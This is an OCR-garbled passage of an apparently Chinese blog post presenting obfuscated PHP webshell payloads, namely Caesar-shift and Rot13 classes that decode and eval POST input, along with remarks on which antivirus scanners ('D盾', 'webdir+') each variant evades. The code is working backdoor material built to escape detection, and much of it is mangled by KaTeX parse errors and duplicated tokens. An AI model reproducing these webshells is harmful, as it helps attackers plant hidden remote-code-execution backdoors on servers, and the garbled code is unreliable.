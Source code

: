 v + = ( o r d ( v += (ord( v+\=(ord(QSFX\[KaTeX parse error: Expected 'EOF', got '}' at position 18: …) - 97); }̲ elseif (QSFX\[$i\] >= ‘2’ && Q S F X \[ QSFX\[ QSFX\[i\] <= ‘7’) {  
$v += (24 + Q S F X \[ QSFX\[ QSFX\[i\]);  
} else {  
exit(1);  
}  
v b i t s + = 5 ; w h i l e ( vbits += 5; while ( vbits+\=5;while(vbits >= 8){  
$vbits -= 8;  
N L H B . = c h r ( NLHB .= chr( NLHB.\=chr(v >> $vbits);  
$v &= ((1 << $vbits) - 1);}}  
return $NLHB;}  
?>  
![在这里插入图片描述](https://img-blog.csdnimg.cn/acd11c6d7542462f89f1838f9b0c2c07.png)

## ascii码移位payload（凯撒加密）

-   <?php

class FKPC{  
function \_\_construct(){  
$this->TQYV = “bs^i%!\\MLPQXwbolZ&8”;  
t h i s − > W Z D M = @ H H G J ( this->WZDM = @HHGJ( this−\>WZDM\=@HHGJ(this->TQYV);  
@eval(“/_#jkskjwjqo_/”.KaTeX parse error: Expected 'EOF', got '#' at position 17: …his->WZDM."/\*sj#̲ahajsj\*/"); …UyGv) {  
$svfe = \[\];  
$mxAS = ‘’;  
$f = U y G v ; f o r ( UyGv; for ( UyGv;for(i=0; i < s t r l e n ( i<strlen( i<strlen(f);$i++)  
{  
s v f e \[ \] = c h r ( ( o r d ( svfe\[\] = chr((ord( svfe\[\]\=chr((ord(f\[$i\])+3));  
}  
m x A S = i m p l o d e ( mxAS = implode( mxAS\=implode(svfe);  
return $mxAS ;  
}  
?>  
![在这里插入图片描述](https://img-blog.csdnimg.cn/281198b9e5f541b1a3130608c1ad0f24.png)  
居然没过webdir+

那如何解决呢 我们后面再说 当然应付D盾还是绰绰有余了  
![在这里插入图片描述](https://img-blog.csdnimg.cn/4afd3ce5bc52491b892a403a30a51409.png)  
Rot13加密payload

-   <?php

class KUYE{  
public $DAXW = null;  
public $LRXV = null;  
function \_\_construct(){  
t h i s − > D A X W = ′ r i n y ( this->DAXW = 'riny( this−\>DAXW\=′riny(\_CBFG\[mreb\]);';  
t h i s − > L R X V = @ s t r r o t 13 ( this->LRXV = @str\_rot13( this−\>LRXV\=@strrot13(this->DAXW);  
@eval(“/_GnSpe=u_/”.$this->LRXV.“/_GnSpe=u_/”);  
}}  
new KUYE();
